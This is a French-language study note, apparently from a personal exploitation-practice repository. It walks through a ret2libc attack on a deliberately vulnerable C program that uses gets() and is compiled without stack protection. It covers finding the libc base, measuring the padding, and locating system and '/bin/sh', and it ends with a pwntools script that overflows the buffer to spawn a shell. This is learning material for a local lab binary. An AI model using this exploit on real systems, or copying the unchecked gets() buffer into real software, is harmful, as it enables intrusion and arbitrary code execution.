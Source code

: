 #Doc:

- https://beta.hackndo.com/retour-a-la-libc/

## Programme vulnérable

```c
//gcc source.c -o vuln-32 -no-pie -fno-stack-protector -m32
//gcc source.c -o vuln-64 -no-pie -fno-stack-protector


#include <stdio.h>

void vuln() {
    char buffer[64];

    puts("Overflow me");
    gets(buffer);
}

int main() {
    vuln();
}
```

## Trouver le point d'entrée : la libc

```bash
   ~/Hacking/pwn/ret2libc    main !1 ?9    ldd ./vuln-32                                                                                                                                                                        ✔ 
        linux-gate.so.1 (0xf7fc7000)
        libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
        /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7fc9000)
```

**Attention: utiliser sa propre valeur -> réexécuter ldd:** ici 0xf7c0000

## Trouver le padding = taille du buffer pour segfault

```bash
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
76
```

## Trouver system - exit - /bin/sh

```bash
gdb -q ./vuln
b *main
p system
```

```bash
p exit
```

```bash
find __libc_start_main,+99999999,"/bin/sh" #bp nécessaire
```

## Automatisation de l'exploitation

Ça marche pas de ouf pour les addresses en fait. À corriger si le buffer est en argv[1] de plus.
Penser à rajouter des \x90.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # grab string location

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system - sometimes execve()
payload += p32(0x0)         # return pointer - not important once we get the shell - sometimes exit()
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

![](./pwn.png)
